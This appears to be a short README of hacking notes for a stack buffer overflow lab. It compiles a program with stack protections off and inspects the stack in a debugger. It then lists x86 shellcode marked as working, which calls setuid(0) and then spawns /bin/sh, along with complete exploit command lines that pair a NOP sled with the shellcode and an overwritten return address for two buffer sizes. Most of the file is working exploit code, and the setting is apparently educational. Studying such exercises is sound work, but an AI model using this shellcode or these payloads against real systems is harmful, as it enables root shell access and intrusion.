 # zataoh
# Zen and the Art of Hacking

## Build:
```shell
gcc -g -z execstack -no-pie -o vuln vuln.c
```

buffer lives in between esp and ebp

```shell
info registers
x/30x $esp
```

## Run:
```shell
./envexec.sh vuln $(python ...)
```

## Test if shellcode is working:
(Update test_shellcode with the shellcode you are testing)

### Compile test_shellcode.c
```shell
gcc -m32 -z execstack test_shellcode.c -o test_shell
./test_shellcode
```

## Shellcode (works):
```shell
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
```

## Buffer Size: 100
```shell
./envexec.sh vuln $(python -c 'print "\x90" * 76 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "\x60\xfd\xff\xbf"')
```
## Buffer size: 500
```shell
$(python -c 'print "\x90" * 476 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "\x30\xfa\xff\xbf")
```
